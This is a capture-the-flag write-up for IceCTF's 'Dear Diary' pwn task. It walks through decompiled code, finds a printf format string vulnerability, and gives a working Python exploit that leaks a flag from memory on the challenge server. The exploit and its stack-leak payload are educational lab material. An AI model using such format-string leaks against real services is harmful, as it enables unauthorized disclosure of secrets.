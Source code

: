 # Dear Diary (Pwn, 60)

In the task description we are given the following info:
>We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents.

A little bit info about task file:
```
File name : dear_diary  
File type : ELF 32-bit LSB executable  
SHA1      : 34cff95cf188187fe9f2d92d95b97bac128aa459
```

And some `checksec` details:
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Tools used:  
>IDA Pro  

Let's go straight to the `main()` and see what's there for us:
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int choice;
  unsigned int entry_id;
  char buffer[5120];
  char choice_data[4];

  ...
  flag(); // interesting
  entry_id = 0;
  puts("-- Diary 3000 --");
  fflush(stdout);
  while ( 1 )
  {
    while ( 1 )
    {
      print_menu();
      fgets(choice_data, 4, stdin);
      choice = atoi(choice_data);
      if ( choice != 2 )
        break;
      if ( entry_id )
        print_entry(&buffer[256 * (entry_id - 1)]); // interesting
      else
        puts("No entry found!");
    }
    if ( choice == 3 )
      break;
    if ( choice == 1 )
    {
      if ( entry_id > 0x13 )
      {
        puts("diary ran out of space..");
        exit(1);
      }
      add_entry(&buffer[256 * entry_id++]); // interesting
    }
    else
    {
      puts("Invalid input.");
    }
  }
  exit(0);
}
```

We can see here that `flag()` function is called right at the start.
Then a menu is printed and some action taken according to the choice.  
Let's dig deeper and see what each of those marked functions do.

```c
int flag()
{
  ...
  fd = open("./flag.txt", 0);
  read(fd, &data, 0x100u);
  ...
}
```

Ok, nothing really special here, as it only opens the `./flag.txt` file and reads its content to a buffer at `.bss:0804A0A0 data`  

```c
int __cdecl add_entry(char *a1)
{
  ...
  printf("Tell me all your secrets: ");
  fflush(stdout);
  fgets(a1, 256, stdin);
  if ( strchr(a1, 'n') )
  {
    puts("rude!");
    exit(1);
  }
  ...
}
```

Here it only reads up to 256 bytes from _stdin_ into the buffer passed in argument, and checks if there's an `n` character in the string. First suspicious thing, but let's go further.

```c
int __cdecl print_entry(const char *a1)
{
  ...
  printf(a1);
  fflush(stdout);
  ...
}
```

And there we have it, parameter is directly passed into `printf()` function.  
Nice and clean `format string vulnerability`.

Ok, now it's the time for a short recap.
> There's a buffor allocated on stack that can hold up to 20 entries.  
> Each diary entry is 256 bytes long.  
> Diary entry can't have `n` character in it.  
> We can print out recently added diary entry.  

`strchr(a1, 'n')` in `add_entry()` is there presumably for checking against one of `printf's` writing modifiers `%n`, `%hn`, `%hhn`. Thus we can't use any of them.

Let's run the app and put a custom string with some marker at the beginning, that would print out the stack for us.

```
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: AAAA%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x

1. add entry
2. print latest entry
3. quit
> 2
AAAAb763a64d|b77b1000|bf840088|bf841488|0|a|c2951300|0|0|bf841498|804888c|bf840088|4|b77b1c20|0|0|1|41414141|257c7825|78257c78|7c78257c|257c7825|78257c78
```

Great, `0x41414141` which corresponds to `AAAA` is at `18th` place.
What we need is some way of reading the _flag_ that is stored under buffer `.bss:0804A0A0`.

So, instead of `0x41414141` let's put `0x0804A0A0` and instead of `%x` at `18th` let's put `%s`.

```python
import struct
import socket

data = ''
data += struct.pack( '<I', 0x0804a0a0 )
data += '%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s'

s = socket.create_connection( ( 'diary.vuln.icec.tf', 6501 ) )
print s.recv( 256 )
print s.recv( 256 )
s.send( '1\n' )
print s.recv( 256 )
s.send( data + '\n' )
print s.recv( 256 )
s.send( '2\n' )
print repr( s.recv( 256 ) )
```

And that's all, we get the flag `IceCTF{this_thing_is_just_sitting_here}`
